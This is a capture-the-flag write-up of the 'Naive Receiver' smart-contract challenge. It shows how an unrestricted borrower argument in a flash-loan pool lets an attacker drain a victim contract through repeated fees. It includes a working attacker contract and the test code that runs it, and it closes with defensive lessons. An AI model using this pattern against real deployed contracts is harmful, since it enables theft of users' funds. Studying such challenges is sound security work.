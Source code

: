 # Challenge #2: Naive Receiver

In this challenge there is a pool that lends ETH and a victim contract who has 10 ETH and is capable of receiving flash loans from the lender. The goal of this challenge is to drain all ETH from the victim. 

The only way to transfer ETH from the victim is to make it call a transfer function. It happens in the last operation of the victim's *receiveEther* function:

```
// Function called by the pool during flash loan
function receiveEther(uint256 fee) public payable {
    require(msg.sender == pool, "Sender must be pool");

    uint256 amountToBeRepaid = msg.value.add(fee);

    require(address(this).balance >= amountToBeRepaid, "Cannot borrow that much");
    
    _executeActionDuringFlashLoan();
    
    // Return funds to pool
    pool.sendValue(amountToBeRepaid); <--- Here!
}
```

In order to drain victim's ETH:
1. I have to call the *receiveEther* function of the victim contract, however the victim accepts calls only from the lending pool.
2. The lending pool's *flashLoan* function accepts not only the amount to be borrowed but also the address of the borrower.  

Do you get the idea?

## Exploit

Basically, we can make the lending pool to call the *receiveEther* function of any contract that implements such function, including the victim.

When the function is called, the victim returns borrowed (on their behalf) ETH plus the fee. The fee is fixed, so I can borrow 0 ETH. 

As the victim has 10 ETH and the fee is 1 ETH I could send 10 transactions to drain victim's balance. However, the nice to have of the challenge is to do it in one transaction, so I have created a simple attacker contract with the following function:

```
function attack(INaiveReceiverLenderPool _lender, address _victim) external {
    for (uint8 i = 0; i < 10; i++) {
        _lender.flashLoan(_victim, 1 ether);
    }        
} 
```

It just calls the *flashLoan* function 10 times in one transaction. Now, to run the exploit I have to deploy the contract and send one transaction:

```
it('Exploit', async function () {
    /** YOUR EXPLOIT GOES HERE */
    /* Deploy attacker contract */
    this.attackerContract = await NaiveReceiverAttacker.new({ from: attacker });
    /* Run exploit */
    await this.attackerContract.attack(this.pool.address, this.receiver.address, {from: attacker});
});
```

## Lesson learned

When building a lending pool, do not allow to call any function of any contract from the pool contract. Specify the function to be called on the receiver contract and, if it is possible, define a list of contracts that can be called - usually the *msg.sender* should be called back. 

However, some lending pools allow borrowers to transfer the borrowed amount to any contract and execute its receiving function. In such situation, the lending pool should clarify that the receiver's function which handles borrowed ETH or tokens can be called only by the pool and within a process initiated by its owner or other trusted source (e.g. multisig).

[<< Back to the README](../README.md)